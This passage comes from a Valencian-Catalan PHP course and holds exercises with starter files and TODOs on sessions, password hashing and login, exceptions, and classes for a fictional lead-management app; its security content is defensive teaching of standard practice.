10. Prova el flux complet: obri `pagina_privada.php` directament (t'ha de tornar al login), prova un usuari que no existix, entra com `ana` i com `marc` (només l'administrador veu el panell d'administració), tanca la sessió i intenta tornar a la pàgina privada amb el botó *Arrere* del navegador o escrivint-ne la URL.

**Pista:** `session_start()` s'ha de cridar en **tots** els arxius que llegisquen o escriguen `$_SESSION`. El bloc de `pagina_privada.php` (comprovar la sessió i redirigir amb `exit`) és el patró de control d'accés que reutilitzaràs en qualsevol pàgina que vulgues protegir: sense l'`exit`, el codi de la pàgina continuaria executant-se encara que el navegador ja haja rebut l'ordre de redirigir.

### 10.6. Autenticació d'usuaris (password_hash i password_verify)

#### Exercici 6.1 — Registre d'usuari amb `password_hash()`

**Fitxer de partida:** `exercici6.1.php`

::: details **📄 exercici6.1.php**

```php
<?php
    $errors = [];
    $enviat = $_SERVER['REQUEST_METHOD'] === 'POST';

    if ($enviat) {
        // Dades rebudes (ja proporcionades, no cal que les toques)
        $usuari      = trim($_POST['usuari'] ?? '');
        $contrasenya = $_POST['contrasenya'] ?? '';
        $confirmacio = $_POST['confirmacio'] ?? '';

        // TODO 1: Valida les dades i acumula els errors en $errors:
        // - Si $usuari està buit: 'El nom d\'usuari és obligatori.'
        // - Si $contrasenya i $confirmacio no coincidixen: 'Les contrasenyes no coincidixen.'
        // - Si coincidixen però tenen menys de 8 caràcters (strlen): 'La contrasenya ha de tindre almenys 8 caràcters.'

        if (empty($errors)) {
            // TODO 2: Genera el hash de $contrasenya amb password_hash() i PASSWORD_DEFAULT
            // i guarda'l en $hash. (En un cas real, este hash és el que es guardaria a la base
            // de dades: mai la contrasenya en text pla)

            // TODO 3: Genera un segon hash de la mateixa contrasenya i guarda'l en $hash2.
            // Després declara:
            // - $hashesIguals: si $hash i $hash2 són idèntics (===)
            // - $verificacioCorrecta: el resultat de password_verify() amb $contrasenya i $hash
            // - $verificacioIncorrecta: el resultat de password_verify() amb $contrasenya . 'x' i $hash
        }
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 6.1 - Registre d'usuari</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Registre d'usuari · TechLeads</h1>

        <?php if ($enviat && !empty($errors)): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded">
                <ul class="list-disc list-inside">
                    <?php foreach ($errors as $error): ?>
                        <li><?= htmlspecialchars($error) ?></li>
                    <?php endforeach; ?>
                </ul>
            </div>
        <?php endif; ?>

        <form method="POST" action="" novalidate class="bg-white p-6 rounded-lg shadow-md space-y-4">
            <div>
                <label for="usuari" class="block text-sm font-semibold text-gray-700 mb-1">Usuari</label>
                <input type="text" id="usuari" name="usuari" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="contrasenya" class="block text-sm font-semibold text-gray-700 mb-1">Contrasenya</label>
                <input type="password" id="contrasenya" name="contrasenya" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="confirmacio" class="block text-sm font-semibold text-gray-700 mb-1">Repetix la contrasenya</label>
                <input type="password" id="confirmacio" name="confirmacio" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Registrar-se
            </button>
        </form>

        <?php if ($enviat && empty($errors)): ?>
            <div class="bg-white p-6 rounded-lg shadow-md space-y-3">
                <h2 class="text-lg font-semibold text-green-700">Usuari «<?= htmlspecialchars($usuari) ?>» registrat</h2>

                <div>
                    <p class="text-sm font-semibold text-gray-700">Hash que es guardaria a la base de dades:</p>
                    <p class="font-mono text-sm break-all bg-gray-100 rounded p-2"><?= htmlspecialchars($hash) ?></p>
                </div>

                <div>
                    <p class="text-sm font-semibold text-gray-700">Un segon hash de la mateixa contrasenya:</p>
                    <p class="font-mono text-sm break-all bg-gray-100 rounded p-2"><?= htmlspecialchars($hash2) ?></p>
                </div>

                <ul class="text-gray-700 space-y-1">
                    <li>Els dos hashes són iguals? <span class="font-semibold"><?= $hashesIguals ? 'Sí' : 'No' ?></span></li>
                    <li>Verificació amb la contrasenya correcta: <span class="font-semibold"><?= $verificacioCorrecta ? 'Sí' : 'No' ?></span></li>
                    <li>Verificació amb una contrasenya errònia: <span class="font-semibold"><?= $verificacioIncorrecta ? 'Sí' : 'No' ?></span></li>
                </ul>
            </div>
        <?php endif; ?>

    </div>

</body>
</html>
```
:::

**Objectiu:** Validar un formulari de registre i generar el hash d'una contrasenya amb `password_hash()`, comprovant que dos hashes de la mateixa contrasenya són diferents però `password_verify()` els reconeix.

Tasques a fer dins del fitxer (les dades ja estan capturades a `$usuari`, `$contrasenya` i `$confirmacio`):

1. A `TODO 1`, valida les dades i acumula els errors en `$errors`:
   - si `$usuari` està buit: `'El nom d\'usuari és obligatori.'`
   - si `$contrasenya` i `$confirmacio` no coincidixen: `'Les contrasenyes no coincidixen.'`
   - si coincidixen però tenen menys de 8 caràcters (`strlen()`): `'La contrasenya ha de tindre almenys 8 caràcters.'`
2. A `TODO 2`, genera el hash de `$contrasenya` amb `password_hash()` i `PASSWORD_DEFAULT`, i guarda'l en `$hash`.
3. A `TODO 3`, genera un segon hash de la mateixa contrasenya en `$hash2` i declara:
   - `$hashesIguals`: si `$hash` i `$hash2` són idèntics (`===`)
   - `$verificacioCorrecta`: el resultat de `password_verify()` amb `$contrasenya` i `$hash`
   - `$verificacioIncorrecta`: el resultat de `password_verify()` amb `$contrasenya . 'x'` i `$hash`
4. Prova el formulari amb contrasenyes que no coincidisquen, massa curtes i correctes. Registra dues vegades la mateixa contrasenya i comprova que el hash és diferent cada vegada, però sempre comença per `$2y$10$` (l'algorisme *bcrypt*).

**Pista:** Cada crida a `password_hash()` afig un valor aleatori (*salt*) al resultat, per això dos hashes de la mateixa contrasenya són diferents. Este valor viatja dins del propi hash, i per això `password_verify()` pot comprovar la contrasenya sense «desxifrar» res (bcrypt no és reversible). Fixa't que la contrasenya en text pla no s'imprimix mai a la pàgina i que no es fa `trim()` d'ella: els espais també formen part d'una contrasenya. En un cas real, el hash es guardaria a la base de dades.

#### Exercici 6.2 — Inici de sessió amb `password_verify()`

**Carpeta de partida:** `exercici6.2/`, amb els fitxers `usuaris_bd.php`, `pagina_privada.php` i `logout.php` (ja fets, no cal tocar-los) i `login.php` (el que has de completar)

::: details **📄 exercici6.2/usuaris_bd.php**

```php
<?php
// Simula una taula d'usuaris de la base de dades.
// Fixa't que NOMÉS es guarden els hashes, mai les contrasenyes en text pla.
$usuaris = [
    'ana'  => ['hash' => '$2y$10$jtyC89SwKBSRwUpjO.3Ot.Rql4v6QY05kZR7SFrkVLUyWHLNVnZK6', 'rol' => 'comercial'],
    'marc' => ['hash' => '$2y$10$74Dle4/UJiucMgWk8l4bMuOEhYAzKPGxIrGcDAkOmqivk5ocTez6C', 'rol' => 'administrador'],
];
```
:::

::: details **📄 exercici6.2/login.php**

```php
<?php
    // TODO 1: Inicia la sessió amb session_start()

    // TODO 2: Carrega 'usuaris_bd.php' amb require_once i una ruta construïda amb __DIR__
    // (este arxiu defineix l'array $usuaris)

    $errors = [];

    // TODO 3: Si l'usuari ja té la sessió iniciada ($_SESSION['usuari'] existix),
    // redirigeix a 'pagina_privada.php' amb exit

    if ($_SERVER['REQUEST_METHOD'] === 'POST') {
        $usuari      = trim($_POST['usuari'] ?? '');
        $contrasenya = $_POST['contrasenya'] ?? '';

        // TODO 4: Comprova que $usuari existix a $usuaris I que password_verify() confirma la contrasenya
        // contra el 'hash' d'eixe usuari. Si és així:
        //   - Regenera l'ID de sessió amb session_regenerate_id(true)
        //   - Guarda en $_SESSION['usuari'] el nom i en $_SESSION['rol'] el seu rol
        //   - Redirigeix a 'pagina_privada.php' amb exit
        // Si no, afig a $errors el missatge genèric 'Usuari o contrasenya incorrectes.'
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 6.2 - Iniciar sessió</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen flex items-center justify-center p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-sm w-full space-y-4">

        <?php foreach ($errors as $error): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded"><?= htmlspecialchars($error) ?></div>
        <?php endforeach; ?>

        <form method="POST" action="" class="bg-white p-8 rounded-lg shadow-md space-y-4">
            <h1 class="text-2xl font-bold text-gray-800">Iniciar sessió</h1>

            <div>
                <label for="usuari" class="block text-sm font-semibold text-gray-700 mb-1">Usuari</label>
                <input type="text" id="usuari" name="usuari" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="contrasenya" class="block text-sm font-semibold text-gray-700 mb-1">Contrasenya</label>
                <input type="password" id="contrasenya" name="contrasenya" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <button type="submit" class="w-full bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Entrar
            </button>
        </form>

    </div>

</body>
</html>
```
:::

::: details **📄 exercici6.2/pagina_privada.php**

```php
<?php
    session_start();

    if (!isset($_SESSION['usuari'])) {
        header('Location: login.php');
        exit;
    }

    $usuari = $_SESSION['usuari'];
    $rol    = $_SESSION['rol'];
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 6.2 - Pàgina privada</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <div class="max-w-xl mx-auto space-y-6">

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h1 class="text-2xl font-bold text-gray-800 mb-1">Benvingut/da, <?= htmlspecialchars($usuari) ?>!</h1>
            <p class="text-gray-600">Rol: <span class="font-semibold text-blue-700"><?= htmlspecialchars($rol) ?></span></p>
        </div>

        <?php if ($rol === 'administrador'): ?>
            <div class="bg-yellow-100 border border-yellow-300 text-yellow-800 px-4 py-3 rounded">
                Panell d'administració: només el veuen els administradors.
            </div>
        <?php endif; ?>

        <a href="logout.php" class="inline-block bg-red-500 hover:bg-red-600 text-white font-semibold px-4 py-2 rounded">
            Tancar sessió
        </a>

    </div>

</body>
</html>
```
:::

::: details **📄 exercici6.2/logout.php**

```php
<?php
    session_start();
    $_SESSION = [];
    session_destroy();
    header('Location: login.php');
    exit;
```
:::

**Objectiu:** Autenticar usuaris comprovant la contrasenya contra el hash guardat amb `password_verify()`, amb un missatge d'error genèric i regenerant l'ID de sessió en iniciar sessió.

Usuaris de prova: `ana` amb la contrasenya `contrasenya123` i `marc` (administrador) amb la contrasenya `admin12345`. Fixa't que `usuaris_bd.php`, que simula la base de dades, només conté els hashes.

Tasques a fer dins del fitxer `login.php`:

1. A `TODO 1`, inicia la sessió amb `session_start()`.
2. A `TODO 2`, carrega `usuaris_bd.php` amb `require_once` i una ruta construïda amb `__DIR__` (este arxiu defineix l'array `$usuaris`).
3. A `TODO 3`, si l'usuari ja té la sessió iniciada (`$_SESSION['usuari']` existix), redirigeix a `pagina_privada.php` amb `exit`.
4. A `TODO 4`, comprova que `$usuari` existix a `$usuaris` **i** que `password_verify()` confirma la contrasenya contra el `'hash'` d'eixe usuari. Si és així: regenera l'ID de sessió amb `session_regenerate_id(true)`, guarda en `$_SESSION['usuari']` el nom i en `$_SESSION['rol']` el seu rol, i redirigeix a `pagina_privada.php` amb `exit`. Si no, afig a `$errors` el missatge genèric `'Usuari o contrasenya incorrectes.'`.
5. Prova el flux complet: entra amb `ana`, tanca la sessió i entra amb `marc` (només ell veu el panell d'administració). Prova una contrasenya errònia i un usuari que no existix: el missatge ha de ser exactament el mateix. Amb les eines de desenvolupador (*Cookies*), comprova que el valor de `PHPSESSID` canvia en iniciar sessió.

**Pista:** Escriu primer `isset($usuaris[$usuari])` i després `password_verify()`, units amb `&&`: si l'usuari no existix, PHP no arriba a evaluar la segona part i no intenta accedir a un `'hash'` inexistent. El missatge és el mateix en els dos casos perquè un atacant no puga esbrinar quins usuaris existixen. I `session_regenerate_id(true)` evita la *fixació de sessió*: un atacant que haguera forçat un ID de sessió conegut perdria l'accés en el moment que la víctima s'autentica.

### 10.7. Gestió d'errors i excepcions

#### Exercici 7.1 — Comissió comercial

**Fitxer de partida:** `exercici7.1.php`

::: details **📄 exercici7.1.php**

```php
<?php
    function calcularComissio(float $venda, float $percentatge): float {
        // TODO 1: Llança una Exception (throw new Exception(...)) en estos casos:
        // - Si $venda és negativa: 'La venda no pot ser negativa.'
        // - Si $percentatge està fora del rang de 0 a 100: 'El percentatge ha d\'estar entre 0 i 100.'
        // Si les dades són correctes, retorna la comissió: $venda * $percentatge / 100
    }

    $comissio = null;
    $error    = null;
    $enviat   = $_SERVER['REQUEST_METHOD'] === 'POST';

    if ($enviat) {
        // Dades rebudes (ja proporcionades, no cal que les toques)
        $venda       = (float) ($_POST['venda'] ?? 0);
        $percentatge = (float) ($_POST['percentatge'] ?? 0);

        // TODO 2: Dins d'un bloc try, crida a calcularComissio($venda, $percentatge)
        // i guarda el resultat en $comissio.
        // Amb un bloc catch (Exception $e), guarda el missatge de l'excepció
        // (getMessage()) en $error
    }
?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 7.1 - Comissió comercial</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Comissió comercial · TechLeads</h1>

        <?php if ($error !== null): ?>
            <div class="bg-red-100 border border-red-300 text-red-800 px-4 py-3 rounded">
                <?= htmlspecialchars($error) ?>
            </div>
        <?php endif; ?>

        <?php if ($comissio !== null): ?>
            <div class="bg-green-100 border border-green-300 text-green-800 px-4 py-3 rounded">
                Sobre una venda de <?= number_format($venda, 2, ',', '.') ?> € amb un <?= $percentatge ?>%,
                la comissió és de <span class="font-bold"><?= number_format($comissio, 2, ',', '.') ?> €</span>.
            </div>
        <?php endif; ?>

        <!-- novalidate: perquè puguis provar valors incorrectes -->
        <form method="POST" action="" novalidate class="bg-white p-6 rounded-lg shadow-md space-y-4">
            <div>
                <label for="venda" class="block text-sm font-semibold text-gray-700 mb-1">Import de la venda (€)</label>
                <input type="text" id="venda" name="venda" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <div>
                <label for="percentatge" class="block text-sm font-semibold text-gray-700 mb-1">Percentatge de comissió (%)</label>
                <input type="text" id="percentatge" name="percentatge" class="w-full border border-gray-300 rounded px-3 py-2">
            </div>

            <button type="submit" class="bg-blue-600 hover:bg-blue-700 text-white font-semibold px-4 py-2 rounded">
                Calcular
            </button>
        </form>

    </div>

</body>
</html>
```
:::

**Objectiu:** Llançar una excepció amb `throw new Exception(...)` quan les dades no són vàlides i capturar-la amb `try`/`catch` per a mostrar el seu missatge amb `getMessage()`.

Tasques a fer dins del fitxer:

1. A `TODO 1`, completa la funció `calcularComissio()`. Ha de llançar una `Exception` si `$venda` és negativa (`'La venda no pot ser negativa.'`) o si `$percentatge` està fora del rang de 0 a 100 (`'El percentatge ha d\'estar entre 0 i 100.'`). Si les dades són correctes, ha de retornar `$venda * $percentatge / 100`.
2. A `TODO 2`, dins d'un bloc `try`, crida a `calcularComissio($venda, $percentatge)` i guarda el resultat en `$comissio`. Amb un bloc `catch (Exception $e)`, guarda el missatge de l'excepció (`getMessage()`) en `$error`.
3. Prova el formulari amb una venda de `1000` i un `5`%, amb un percentatge de `150`, amb una venda negativa i amb els límits `0` i `100` (han de ser vàlids).

**Pista:** La funció no imprimeix cap error: simplement el llança, i qui la crida decidix què fer amb ell. Quan es llança l'excepció, la resta de la funció (i la línia següent dins del `try`) no s'executa: per això `$comissio` es queda a `null` i la vista només mostra el missatge d'error. Fixa't també que a l'usuari només se li mostra `getMessage()`: mètodes com `getFile()` o `getLine()` revelen detalls tècnics que no ha de veure.

#### Exercici 7.2 — Importació de leads en lot

**Fitxer de partida:** `exercici7.2.php`

:::details **📄 exercici7.2.php**

```php
<?php
    function importarLead(string $linia): array {
        $camps = explode(';', $linia);

        // TODO 1: Valida la línia llançant una Exception, cada una amb el seu missatge i el seu codi
        // (segon paràmetre del constructor d'Exception), en este ordre:
        // - Si no té exactament 3 camps (count): 'Format incorrecte: calen 3 camps.', codi 1
        //   (fes esta comprovació abans de llegir els camps)
        // - Després, guarda els camps (sense espais als extrems) en $nom, $email i $pressupost
        //   (per exemple, amb array_map('trim', $camps) i una assignació per desestructuració)
        // - Si $nom està buit: 'El nom és obligatori.', codi 2
        // - Si $email no és vàlid (filter_var): 'L\'email no és vàlid.', codi 3
        // - Si $pressupost no és numèric (is_numeric): 'El pressupost ha de ser un número.', codi 4
        // Si tot és correcte, retorna ['nom' => ..., 'email' => ..., 'pressupost' => ...],
        // amb el pressupost convertit a float
    }

    // Línies a importar (ja proporcionades, format: nom;email;pressupost)
    $linies = [
        'Aina Soler;aina@textils.cat;4500',
        'Marc Climent;marc-at-econova.cat;800',
        'Laura Sanchis;laura@innovacio.cat;12000',
        ';pau@exemple.cat;300',
        'Joan Peris;joan@exemple.cat;abc',
        'Rosa Vidal;rosa@exemple.cat',
    ];

    $importats   = [];
    $errors      = [];
    $processades = 0;

    // TODO 2: Recorre $linies amb un foreach (clau $i i valor $linia). Dins de cada volta:
    // - Dins d'un bloc try, crida a importarLead($linia) i afig el resultat a $importats
    // - Amb un bloc catch (Exception $e), afig a $errors un array amb les claus
    //   'linia' ($i + 1), 'codi' (getCode()) i 'missatge' (getMessage())
    // - Afig un bloc finally que incremente $processades: s'executa tant si hi ha excepció com si no

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 7.2 - Importació de leads</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-3xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Importació de leads · TechLeads</h1>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <p class="text-gray-700">
                Línies processades: <span class="font-bold"><?= $processades ?></span> ·
                correctes: <span class="font-bold text-green-700"><?= count($importats) ?></span> ·
                amb errors: <span class="font-bold text-red-700"><?= count($errors) ?></span>
            </p>
        </div>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-green-700 mb-3">Leads importats</h2>
            <?php if (empty($importats)): ?>
                <p class="text-gray-500">Cap lead importat.</p>
            <?php else: ?>
                <table class="w-full text-left">
                    <thead>
                        <tr class="border-b text-gray-600">
                            <th class="py-2">Nom</th>
                            <th class="py-2">Email</th>
                            <th class="py-2 text-right">Pressupost</th>
                        </tr>
                    </thead>
                    <tbody>
                        <?php foreach ($importats as $lead): ?>
                            <tr class="border-b text-gray-700">
                                <td class="py-2"><?= htmlspecialchars($lead['nom']) ?></td>
                                <td class="py-2"><?= htmlspecialchars($lead['email']) ?></td>
                                <td class="py-2 text-right"><?= number_format($lead['pressupost'], 2, ',', '.') ?> €</td>
                            </tr>
                        <?php endforeach; ?>
                    </tbody>
                </table>
            <?php endif; ?>
        </div>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <h2 class="text-lg font-semibold text-red-700 mb-3">Línies amb errors</h2>
            <?php if (empty($errors)): ?>
                <p class="text-gray-500">Cap error.</p>
            <?php else: ?>
                <table class="w-full text-left">
                    <thead>
                        <tr class="border-b text-gray-600">
                            <th class="py-2">Línia</th>
                            <th class="py-2">Codi</th>
                            <th class="py-2">Motiu</th>
                            <th class="py-2">Contingut</th>
                        </tr>
                    </thead>
                    <tbody>
                        <?php foreach ($errors as $error): ?>
                            <tr class="border-b text-gray-700">
                                <td class="py-2"><?= (int) $error['linia'] ?></td>
                                <td class="py-2"><?= (int) $error['codi'] ?></td>
                                <td class="py-2"><?= htmlspecialchars($error['missatge']) ?></td>
                                <td class="py-2 font-mono text-sm"><?= htmlspecialchars($linies[$error['linia'] - 1]) ?></td>
                            </tr>
                        <?php endforeach; ?>
                    </tbody>
                </table>
            <?php endif; ?>
        </div>

    </div>

</body>
</html>
```
::: 

**Objectiu:** Llançar excepcions amb missatge i codi, capturar-les dins d'un bucle perquè un error no aturi tot el procés i utilitzar `finally` per a un codi que s'ha d'executar sempre.

Tasques a fer dins del fitxer:

1. A `TODO 1`, completa la funció `importarLead()` llançant una `Exception` amb el missatge i el codi indicats, en este ordre:
   - si la línia no té exactament 3 camps: `'Format incorrecte: calen 3 camps.'`, codi `1` (comprova-ho abans de llegir els camps)
   - si `$nom` està buit: `'El nom és obligatori.'`, codi `2`
   - si `$email` no és vàlid (`filter_var()`): `'L\'email no és vàlid.'`, codi `3`
   - si `$pressupost` no és numèric (`is_numeric()`): `'El pressupost ha de ser un número.'`, codi `4`

   Entre la primera i la segona comprovació, guarda els camps (sense espais als extrems) en `$nom`, `$email` i `$pressupost`. Si tot és correcte, retorna un array amb les claus `'nom'`, `'email'` i `'pressupost'` (este últim convertit a `float`).
2. A `TODO 2`, recorre `$linies` amb un `foreach` (clau `$i` i valor `$linia`). Dins de cada volta, dins d'un bloc `try`, crida a `importarLead($linia)` i afig el resultat a `$importats`.
3. Amb un bloc `catch (Exception $e)`, afig a `$errors` un array amb les claus `'linia'` (`$i + 1`), `'codi'` (`getCode()`) i `'missatge'` (`getMessage()`).
4. Afig un bloc `finally` que incremente `$processades`.
5. Comprova el resultat: han d'aparéixer 6 línies processades, 2 correctes i 4 amb error (amb els codis 3, 2, 4 i 1). Afig alguna línia pròpia a `$linies`, correcta o amb error, i comprova que es tracta bé.

**Pista:** El `catch` dins del bucle fa que una línia incorrecta no ature la importació de les altres. Si vols comprovar-ho, comenta temporalment el `try`/`catch`: la primera línia errònia produirà un *Uncaught Exception* i el script s'aturarà. El bloc `finally` s'executa sempre, tant si hi ha hagut excepció com si no: per això `$processades` acaba sent 6 (i no 2).


### 10.8. Classes i objectes

#### Exercici 8.1 — La classe Lead

**Carpeta de partida:** `exercici8.1/`, amb els fitxers `Lead.php` (la classe, que has de completar) i `llistat_leads.php` (la pàgina, amb la vista ja feta)

::: details **📄 exercici8.1/Lead.php**

```php
<?php
class Lead {
    // TODO 1: Defineix el constructor amb propietats promocionades (PHP 8):
    // string $nom, string $empresa i float $pressupost, totes private

    // TODO 2: Afig els tres getters: getNom(), getEmpresa() i getPressupost() (cadascun amb el seu tipus de retorn)

    // TODO 3: Afig el mètode aplicarDescompte(float $percentatge): void
    // Només ha de modificar el pressupost si $percentatge està entre 0 i 100 (tots dos inclosos):
    // en eixe cas, rebaixa $this->pressupost amb el percentatge indicat

    // TODO 4: Afig el mètode getCategoria(): string, que retorne:
    // - 'Gran' si el pressupost és de 10000 o més
    // - 'Mitjà' si és de 2000 o més (i menys de 10000)
    // - 'Xicotet' en qualsevol altre cas

    // TODO 5: Afig el mètode màgic __toString(): string, que retorne el text 'Nom (Empresa)',
    // per exemple: Aina Soler (Tèxtils S.L.)
}
```
:::

::: details **📄 exercici8.1/llistat_leads.php**

```php
<?php
    // TODO 1: Carrega Lead.php amb require_once i una ruta construïda amb __DIR__

    // TODO 2: Crea l'array $leads amb tres objectes de la classe Lead, amb new Lead(nom, empresa, pressupost):
    // - 'Aina Soler', 'Tèxtils S.L.', 4500
    // - 'Marc Climent', 'Econova', 800
    // - 'Laura Sanchis', 'Innovació Tech', 12000

    // TODO 3: Aplica un descompte del 20% al tercer lead ($leads[2]) amb el seu mètode aplicarDescompte()

    // TODO 4: Declara $total: recorre $leads amb un foreach i suma el resultat de getPressupost() de cada lead

?>
<!DOCTYPE html>
<html lang="ca">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Exercici 8.1 - Classe Lead</title>
    <script src="https://cdn.tailwindcss.com"></script>
</head>
<body class="bg-gray-100 min-h-screen p-8">

    <!-- VISTA: no cal tocar res d'ací en avall -->
    <div class="max-w-3xl mx-auto space-y-6">

        <h1 class="text-2xl font-bold text-gray-800">Cartera de leads · TechLeads</h1>

        <div class="bg-white p-6 rounded-lg shadow-md">
            <p class="text-gray-700 mb-4">
                Primer lead de la llista:
                <span class="font-semibold text-blue-700"><?= htmlspecialchars((string) $leads[0]) ?></span>
            </p>

            <table class="w-full text-left">
                <thead>
                    <tr class="border-b text-gray-600">
                        <th class="py-2">Nom</th>
                        <th class="py-2">Empresa</th>
                        <th class="py-2">Categoria</th>
                        <th class="py-2 text-right">Pressupost</th>
                    </tr>
                </thead>
                <tbody>
                    <?php foreach ($leads as $lead): ?>
                        <?php
                            $classesCategoria = match ($lead->getCategoria()) {
                                'Gran'  => 'bg-purple-100 text-purple-800',
                                'Mitjà' => 'bg-blue-100 text-blue-800',
                                default => 'bg-gray-100 text-gray-700',
                            };
                        ?>
                        <tr class="border-b text-gray-700">
                            <td class="py-2"><?= htmlspecialchars($lead->getNom()) ?></td>
                            <td class="py-2"><?= htmlspecialchars($lead->getEmpresa()) ?></td>
                            <td class="py-2">
                                <span class="px-2 py-1 rounded text-sm font-semibold <?= $classesCategoria ?>">
                                    <?= htmlspecialchars($lead->getCategoria()) ?>
                                </span>
                            </td>
                            <td class="py-2 text-right"><?= number_format($lead->getPressupost(), 2, ',', '.') ?> €</td>
                        </tr>
                    <?php endforeach; ?>
                </tbody>
                <tfoot>
                    <tr class="font-bold text-gray-800">
                        <td colspan="3" class="py-3">Total</td>
                        <td class="py-3 text-right"><?= number_format($total, 2, ',', '.') ?> €</td>
                    </tr>
                </tfoot>
            </table>
        </div>

    </div>

</body>
</html>
```
:::

**Objectiu:** Definir una classe amb propietats promocionades del constructor, encapsulació (`private` i *getters*), un mètode amb lògica pròpia i el mètode màgic `__toString()`, i utilitzar-la des d'una altra pàgina.

Tasques a fer:

1. A `Lead.php`, `TODO 1`: defineix el constructor amb propietats promocionades `private`: `string $nom`, `string $empresa` i `float $pressupost`.
2. A `TODO 2`: afig els tres *getters*: `getNom()`, `getEmpresa()` i `getPressupost()`, cadascun amb el seu tipus de retorn.
3. A `TODO 3`: afig el mètode `aplicarDescompte(float $percentatge): void`. Només ha de modificar el pressupost si el percentatge està entre 0 i 100 (tots dos inclosos); en eixe cas, el rebaixa amb el percentatge indicat.
4. A `TODO 4`: afig el mètode `getCategoria(): string`, que retorna `'Gran'` si el pressupost és de 10000 o més, `'Mitjà'` si és de 2000 o més (i menys de 10000) i `'Xicotet'` en qualsevol altre cas.
5. A `TODO 5`: afig el mètode màgic `__toString(): string`, que retorna el text `Nom (Empresa)`, per exemple `Aina Soler (Tèxtils S.L.)`.
6. A `llistat_leads.php`, `TODO 1`: carrega `Lead.php` amb `require_once` i una ruta construïda amb `__DIR__`.
7. A `TODO 2`: crea l'array `$leads` amb tres objectes `Lead` (nom, empresa, pressupost): `'Aina Soler'`, `'Tèxtils S.L.'`, `4500`; `'Marc Climent'`, `'Econova'`, `800`; i `'Laura Sanchis'`, `'Innovació Tech'`, `12000`.
8. A `TODO 3`: aplica un descompte del 20% al tercer lead (`$leads[2]`) amb el seu mètode `aplicarDescompte()`.
9. A `TODO 4`: declara `$total`: recorre `$leads` amb un `foreach` i suma el resultat de `getPressupost()` de cada lead.
10. Obri `llistat_leads.php` al navegador. Has de veure que el primer lead és `Aina Soler (Tèxtils S.L.)`, que les categories són *Mitjà*, *Xicotet* i *Mitjà* (Laura passa de *Gran* a *Mitjà* pel descompte) i que el total és `14.900,00 €`.
11. Fes dos experiments temporals al bloc PHP i després lleva'ls: intenta escriure `echo $leads[0]->pressupost;` (observa l'error) i crida a `aplicarDescompte(150)` sobre un lead (comprova que el pressupost no canvia).

**Pista:** Les propietats són `private`, així que la vista no pot fer `$lead->pressupost`: ha de passar pels *getters*. L'error que veuràs és *Cannot access private property Lead::$pressupost*. Per a canviar l'estat d'un objecte des de fora s'usa un mètode com `aplicarDescompte()`, que pot validar el valor abans de modificar-lo (igual que `ingressar()` en l'exemple del compte bancari dels apunts). Recorda que dins de la classe s'usa `$this->`, i que `__toString()` es crida automàticament quan l'objecte es converteix en text: per això la vista pot fer `(string) $lead`.

#### Exercici 8.2 — Herència, classes abstractes i interfícies

**Carpeta de partida:** `exercici8.2/`, amb els fitxers `Notificable.php` (ja fet, no cal tocar-lo), `Lead.php`, `LeadParticular.php`, `LeadEmpresa.php` i `panell_leads.php`

::: details **📄 exercici8.2/Notificable.php**

```php
<?php
// Interfície ja feta, no cal tocar-la
interface Notificable {
    public function enviarNotificacio(string $missatge): string;
}
```
:::

::: details **📄 exercici8.2/Lead.php**

```php
<?php
abstract class Lead {
    // TODO 1: Defineix el constructor amb propietats promocionades protected: string $nom i string $email

    // TODO 2: Declara el mètode abstracte public calcularPuntuacio(): int (sense cos)

    // TODO 3: Afig el mètode public descriure(): string, que retorne el text:
    // 'Nom <email> - puntuació: X', on X és el resultat de cridar a calcularPuntuacio()
}
```
:::

::: details **📄 exercici8.2/LeadParticular.php**

```php
<?php
// Un lead particular: una persona que ha visitat la nostra web
class LeadParticular extends Lead implements Notificable {
    // TODO 1: Defineix el constructor amb els paràmetres string $nom, string $email
